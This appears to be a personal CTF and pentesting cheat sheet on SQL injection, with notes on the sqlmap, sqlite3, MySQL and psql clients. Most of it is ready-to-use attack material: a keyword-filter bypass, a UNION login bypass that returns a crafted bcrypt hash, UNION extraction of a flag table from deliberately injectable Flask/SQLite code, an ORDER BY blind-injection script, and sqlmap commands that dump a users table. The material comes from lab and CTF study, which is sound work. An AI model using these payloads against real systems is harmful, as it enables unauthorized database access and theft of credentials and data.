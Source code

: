 # SQL

### SQLi Payloads

```bash

#---- Technique 1 -----------------------
# Bypassing a custom Key filter code (PHP MySQL)
#----------------------------------------

UPDATE EMPLOYEE SET role/**/='Admin' where name='John';   
# To bypass if (strtolower($key) === 'role') check in PHP

GET /save_game.php?clicks=5&level=1&role/**/='Admin' HTTP/1.1   
# Did not work bcoz of '' around Admin

GET /save_game.php?clicks=5&level=2&role/**/=Admin HTTP/1.1	
# Worked


#---- Technique 2 -----------------------
# Custom Hash Return for Authentication bypass
#   -> Use a non-existent username
#   -> Use "Union" to return the custom Hash (Bcrypt in our case)
#   -> Input the corresponding initial text of the Hash for the password field  
# pwd:$2y$10$P2yVASiQI.QXgOScCbbN5urTz1IN.wXbuh.xlB9DesLZs0jlxEBj2
#----------------------------------------

username=askhdajhdajs'+union+select+'$2y$10$P2yVASiQI.QXgOScCbbN5urTz1IN.wXbuh.xlB9DesLZs0jlxEBj2&password=pwd


#---- Technique 3 -----------------------
# "Union" Technique to augment the contents of the "flag" table to the current result set
# Important Learning : Using ''='' instead of '1'='1' to reduce payload size for queries involving quotes and length restrictions
# Flask & SQLite
#----------------------------------------

# Basic Checks & User Input Sanitization were present

if len(data) > 6:
        return "Invalid form data", 422
    
    
    for k, v in list(data.items()):
        if v == 'na':
            data.pop(k)
        if (len(k) > 10 or len(v) > 50) and k != "name":
            return "Invalid form data", 422
        if "--" in k or "--" in v or "/*" in k or "/*" in v:
            return render_template("hacker.html")

# The query part

    query = """
    select * from users where {} LIMIT 25;
    """.format(
        " AND ".join(["{} = '{}'".format(k, v) for k, v in prefs.items()])
    )
    print(query)
    conn = sqlite3.connect('file:data.sqlite?mode=ro', uri=True)
    cursor = conn.cursor()
    cursor.execute(query)
    r = cursor.fetchall()
    cursor.close()
    return r

# The payload

name=Finn+Carson&guests=No+guests+at+all&neatness=Clean+up+once+per+week&sleep=8-10pm&awake=6-8am&'1'=1'UNION%20SELECT%201,flag,1,1,1,1%20FROM%20flag%20WHERE%20''='



#---- Technique 4 -----------------------
# "ORDER BY" Blind SQLi
# SQLite Payload
#----------------------------------------

# Payload for extracting a table name containing random chars

r = reqests.post(
    url + "api/list",
    data={
        "order": f"(CASE WHEN (SELECT SUBSTR(name, {position},1) FROM sqlite_master WHERE type='table' AND name LIKE 'flag%')='{character}' THEN count ELSE id END) DESC"
    }
)

# {position} and {character} are variables that are to changed in every iteration to leak out chars.

# If the charcter returned by SUBSTR is EQUAL to the character in the character variable then the results are ordered by count in desc order otherwise by id in desc order. 



# Payload for extracting a column's value (the flag)

r = reqests.post(
    url + "api/list",
    data={
        "order": f"(CASE WHEN (SELECT SUBSTR(flag, {position},1) FROM flag_82f881e7)='{character}' THEN count ELSE id END) DESC"
    }
)

```



---

### SQLMap

```bash
sqlmap -u "https://nagios.<REDACTED>.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3&token=32f2<REDACTED>ab" --batch --level 5 --risk 3 -T xi_users --columns --dump
```

- `id` parameter was injectable according to the report. So pressed `CTRL+C` and typed `n` to start testing the next parameter in the query string which happened to be the `id` paramter.
- `--batch` for never asking for user input & using the default behavior
- `--level` for level of tests to perform (1-5, default 1)
- `--risk` for risk of tests to perform (1-3, default 1)
- `-T` for specifying the DBMS database table(s) to enumerate
- `--columns` for enumerating DBMS database table columns.
- `--dump` for dumping DBMS database table entries


```bash
sqlmap -r req.txt --dump
```

- `-r` uses the intercepted request you saved earlier
- `--dump` attempts to outputs the entire database

---

### Sqlite3

```bash
sqlite3 your_database.db
```

Varrious commands:

```sql
.tables
.schema table_name
SELECT * FROM your_table;
.exit
```

---

### MySQL

```bash
mysql -u lewis -D joomla -p
```
- `-u` for username and `-D` for database.
- `-p` for Password. If password is not given it's asked from the tty.
- `-P` for Port

```
show tables;
select * from sd4fg_users;
exit;
```

---

### psql (for PostgreSQL)

```bash
psql -h 127.0.0.1 -U Username
```
- `-h` for hostname
- `-p` for port
- `-w` for no password
- `-W` for password


```
\c <database>
\d // to list tables PRESS q to escape
\q // to escape psql
```
